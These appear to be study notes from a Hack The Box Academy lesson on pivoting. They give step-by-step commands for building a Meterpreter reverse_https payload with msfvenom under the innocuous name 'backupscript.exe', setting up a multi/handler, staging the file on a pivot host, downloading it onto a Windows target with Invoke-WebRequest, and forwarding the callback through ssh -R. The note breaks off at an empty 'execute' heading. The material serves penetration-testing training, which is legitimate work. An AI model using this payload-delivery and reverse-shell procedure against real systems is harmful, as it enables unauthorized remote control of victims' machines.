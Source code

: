 ![](https://academy.hackthebox.com/storage/modules/158/33.png)
-how to gain remote shell , rev shell

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).
`LOLBAS`

---

![](https://academy.hackthebox.com/storage/modules/158/44.png)

#### Creating a Windows Payload with msfvenom
```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
#### Configuring & Starting the multi/handler
```shell-session
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https

msf6 exploit(multi/handler) > set lhost 0.0.0.0

msf6 exploit(multi/handler) > set lport 8000

msf6 exploit(multi/handler) > run
```


#### Transferring Payload to Pivot Host
```shell-session
AhmaDb0x@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Starting Python3 Webserver on Pivot Host
```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload on the Windows Target
```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R
```shell-session
AhmaDb0x@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

#### execute


